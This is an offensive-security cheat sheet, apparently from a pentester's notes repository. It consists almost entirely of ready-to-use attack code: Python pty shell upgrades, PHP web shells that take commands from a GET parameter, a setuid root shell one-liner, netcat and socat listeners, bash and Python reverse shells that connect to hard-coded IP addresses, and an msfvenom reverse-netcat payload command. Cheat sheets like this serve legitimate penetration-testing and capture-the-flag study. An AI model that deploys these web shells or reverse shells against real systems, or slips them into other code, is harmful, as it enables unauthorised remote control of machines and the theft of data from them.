 # Shells

## Stabilisation/Upgrade shell

### Python

```console
Step 1
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ python2 -c 'import pty; pty.spawn("/bin/bash")'
$ python3 -c 'import pty; pty.spawn("/bin/bash")'

Step 2
$ export TERM=xterm

Step 3
STRG + Z to Backround shell
$ stty raw -echo; fg

Optional Setp 4:
$ reset
```

## Web Shell PHP

### POC
If you are unsure whether they are enabled on your system, the following will return a list of the dangerous functions that are enabled.
```php
<?php print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));?>
```

### Backtrick

```php
<?php system($_GET['cmd']);?>
'cmd' HTTP Request GET parameter -> e.g. "/shell.php?cmd=ls%20-la" 

<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>
```

### system()
```php
// Return the listing of the directory where the file runs (Windows)
<?php system("dir"); ?>

// Return the listing of the directory where the file runs (Linux)
<?php system("ls -la"); ?>
```

### exec()

```php
// Executes but returns nothing
<?php exec("ls -la"); ?>

// Executes, returns only last line of the output
<?php echo exec("ls -la"); ?>
```

### shell_exec()

```php
// Executes, returns the entire output as a string
<?php echo shell_exec("ls -la"); ?>
```

### passthru()

```php
// Executes, returns output in raw format
<?php passsthru("ls -la"); ?>
```

## Shells

### Python

```console
$ python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

## Reverse Shells

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
[PentestMonkey](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

### Listener

```console
nc -lvnp 9001

socat TCP-L:<port>
```

### Bash

```console
bash -i >& /dev/tcp/10.38.1.112/4444 0>&1
```

### Python

```console
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.20.70",9002));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

## msfvenom

Payload Generator

```console
$ msfvenom -p cmd/unix/reverse_netcat lhost=VPN-IP lport=1337 R
```
